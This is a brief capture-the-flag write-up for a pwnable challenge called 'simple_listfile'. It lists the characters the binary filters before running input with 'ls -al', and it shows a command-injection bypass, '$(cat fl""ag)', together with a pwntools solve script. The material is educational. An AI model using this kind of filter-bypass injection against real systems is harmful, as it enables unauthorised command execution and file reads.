 # PoC HackingCamp 16th Pwnable simple_listfile

## Binary Analysis

![main](main.PNG)

This binary read input and filter some characters and execute them with the `ls -al`.

![filter](filter.PNG)

The characters that it filters are `;` ,``` ` ```, `|` , `*` , `&` , `\` , `?` , `>` , `<` , `'` , `\n`, and `flag`.

But, it doesn't filter `$` , `(` , `)` and `"`.

I used them like this.

`$(cat fl""ag)`

## Solve Code

```python
from pwn import *

p = process("./simple_listfile")
p.sendlineafter(": ", "$(cat fl\"\"ag)")

p.interactive()
```